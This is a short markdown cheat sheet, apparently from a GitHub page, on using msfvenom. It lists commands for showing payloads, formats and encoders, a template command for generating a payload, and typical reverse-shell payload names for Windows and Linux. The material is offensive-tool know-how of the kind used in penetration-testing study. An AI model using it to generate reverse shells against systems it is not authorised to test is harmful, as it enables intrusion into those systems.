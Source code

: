 ### Available options
```
msfvenom -l payloads
```
display all payloads.
```
msfvenom --help-formats
```
display all formats.
```
msfvenom --help-platforms
```
display all platforms.
```
msfvenom -l encoders
```
display all encoders.
___
### Generate payload
```
msfvenom -p <payload> -f <format> -o <filename> [-e <encoder] [-a <architecture>] [--platform <platform>] LHOST=<ip> LPORT=<port>
```
generate a payload.
_Payload path: \<os>/\<architecture>/\<payload>_
_Typical payloads/formats:_
- `windows/meterpreter/reverse_tcp`/`exe`
- `linux/x86/meterpreter/reverse_tcp`/`elf`
- `linux/x86/shell_reverse_tcp`/`elf`
- `cmd/unix/reverse_netcat`/`raw`
- `cmd/unix/reverse_bash`/`raw`
- `cmd/unix/reverse_python`/`raw`

`shell_reverse_tcp` is stage-less and `shell/reverse_tcp` is staged.